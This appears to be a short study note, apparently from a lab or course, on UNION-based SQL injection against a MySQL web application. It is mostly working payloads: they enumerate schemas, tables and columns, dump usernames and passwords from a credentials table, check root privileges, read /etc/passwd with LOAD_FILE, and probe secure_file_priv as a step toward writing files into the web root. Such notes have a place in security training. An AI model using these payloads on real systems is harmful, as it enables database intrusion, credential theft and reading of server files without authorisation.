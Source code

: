```sql!
cn' UNION select 1,database(),2,3-- -
```
![](https://hackmd.io/_uploads/ryq6hYx6h.png)
---

## SCHEMATA.TABLES
The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to.
```sql!
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
![](https://hackmd.io/_uploads/H1UlIte6n.png)
---

## SCHEMATA.COLUMNS
The COLUMNS table contains information about all columns present in all the databases.
```sql!
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```
![](https://hackmd.io/_uploads/Hy0VIKxp3.png)
---

## DATA GET!
```sql!
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```
![](https://hackmd.io/_uploads/ByUBouZ6h.png)
---

# <font color=red>Privilege</font>
## USER_PRIVILEGES
```sql!
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

# <font color=red>Reading_files</font>
```sql!
SELECT LOAD_FILE('/etc/passwd');
```
![](https://hackmd.io/_uploads/ry9Lu1Gph.png)

## Write_files
```sql!
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
[Web root dir in Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)
